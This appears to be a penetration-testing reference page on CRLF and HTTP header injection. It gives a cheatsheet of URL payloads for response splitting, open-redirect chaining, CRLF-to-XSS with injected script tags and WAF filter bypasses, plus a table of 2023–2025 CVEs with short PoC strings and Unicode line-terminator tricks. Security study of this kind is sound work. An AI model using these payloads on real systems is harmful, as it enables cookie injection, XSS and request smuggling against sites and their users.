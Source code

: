 ### CHEATSHEET

[Cheatsheet from here](https://twitter.com/NinadMishra5/status/1650080604174667777)

```
1. HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue (Check if the response is setting this cookie)

2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2
• /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2
• /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com

3. CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

4. Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```

### Recent Vulnerabilities (2023 – 2025)

The last few years have produced several high-impact CRLF/HTTP header-injection bugs in widely-used server- and client-side components. Reproducing and studying them locally is an excellent way of understanding real-world exploitation patterns.

| Year | Component | CVE / Advisory | Root cause | PoC highlight |
|------|-----------|---------------|------------|---------------|
| 2024 | RestSharp (≥110.0.0 <110.2.0) | **CVE-2024-45302** | The `AddHeader()` helper did not sanitize CR/LF, allowing construction of multiple request headers when RestSharp is used as an HTTP client inside back-end services. Down-stream systems could be coerced into SSRF or request smuggling. | `client.AddHeader("X-Foo","bar%0d%0aHost:evil")` |
| 2024 | Refit (≤ 7.2.101) | **CVE-2024-51501** | Header attributes on interface methods were copied verbatim into the request. By embedding `%0d%0a`, attackers could add arbitrary headers or even a second request when Refit was used by server-side worker jobs. | `[Headers("X: a%0d%0aContent-Length:0%0d%0a%0d%0aGET /admin HTTP/1.1")]` |
| 2023 | Apache APISIX Dashboard | **GHSA-4h3j-f5x9-r6x3** | User-supplied `redirect` parameter was echoed into a `Location:` header without encoding, enabling open redirect + cache poisoning. | `/login?redirect=%0d%0aContent-Type:text/html%0d%0a%0d%0a<script>alert(1)</script>` |

These bugs are important because they are triggered **inside application-level code** and not only at the web-server edge. Any internal component that performs HTTP requests or sets response headers must therefore enforce CR/LF filtering.

### Advanced Unicode / Control-Character Bypasses

Modern WAF/rewriter stacks often strip literal `\r`/`\n` but forget about other characters that many back-ends treat as line terminators. When CRLF is filtered, try:

* `%E2%80%A8` (`U+2028` – LINE SEPARATOR)
* `%E2%80%A9` (`U+2029` – PARAGRAPH SEPARATOR)
* `%C2%85`  (`U+0085` – NEXT LINE)
